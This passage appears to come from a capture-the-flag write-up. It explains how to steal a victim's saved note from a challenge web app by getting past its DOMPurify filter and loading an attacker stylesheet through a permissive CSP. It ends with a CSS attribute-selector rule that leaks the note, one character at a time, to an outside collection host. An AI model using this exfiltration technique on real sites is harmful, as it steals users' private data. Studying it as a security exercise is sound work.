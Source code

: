 ```javascript
    window.localStorage.setItem("note", str);
    var bookmarkName = DOMPurify.sanitize(str, {ADD_TAGS: ['link','style']}); // allow CSS
    tmp.innerHTML = bookmarkName;
    parsed.setAttribute( 'data-last', self.get() );
    this.note = str;
    parsed.value = str;
  }
  get() {
    return console.log("NOTE_APP_GETTER_CALL"), this.note || parsed.getAttribute( 'data-last' ) || window.localStorage.getItem("note");
  }
  goBack() {
    this.set( parsed.getAttribute( 'data-last' ) );
  }
};
```

We can send a `postMessage` starting with `NOTE_APP_SET_REQUEST` to save a note, allowing us to insert DOMPurify-sanitized HTML into the child iframe.

```javascript
if (event.data.startsWith("NOTE_APP_SET_REQUEST")) {
  onmessage("NOTE_APP_EXPERIMENTAL_API_CALL_MADE ");
  const [a, ...b] = event.data.split(" ");
  self.set(b.join(' '));
}
```

The Content Security Policy (CSP) is quite restrictive, but one part stands out - stylesheets can be loaded from `*.jsapi.tech`, allowing us to load a CSS file from our exploit domain.

{% code overflow="wrap" %}
```html
script-src 'self' cdnjs.cloudflare.com; object-src 'none'; frame-src 'none'; style-src 'self' fonts.googleapis.com *.jsapi.tech;
```
{% endcode %}

By the way, because a tag like `<link>` will get [removed](https://github.com/cure53/DOMPurify/issues/257) by the browser if it's the first thing in the HTML, passing `<link rel="stylesheet" href="...">` to DOMPurify will just return an empty string. However, adding anything _before_ the `<link>` tag fixes this behaviour. For example, I will use `asdf<link rel="stylesheet" href="...">`.

Since we are interested in the victim's saved note, we can exfiltrate the `data-last` attribute of the `#note-text-area` element using [CSS attribute selectors](https://www.w3schools.com/css/css\_attribute\_selectors.asp).

For instance, the URL specified in the `background` of the following CSS rule is only fetched if the `data-last` attribute starts with the string `nite{a`.

```css
textarea[data-last^='nite{a'] {
    background: url("https://EXFIL.x.pipedream.net/?data=nite%7Ba");
}
```
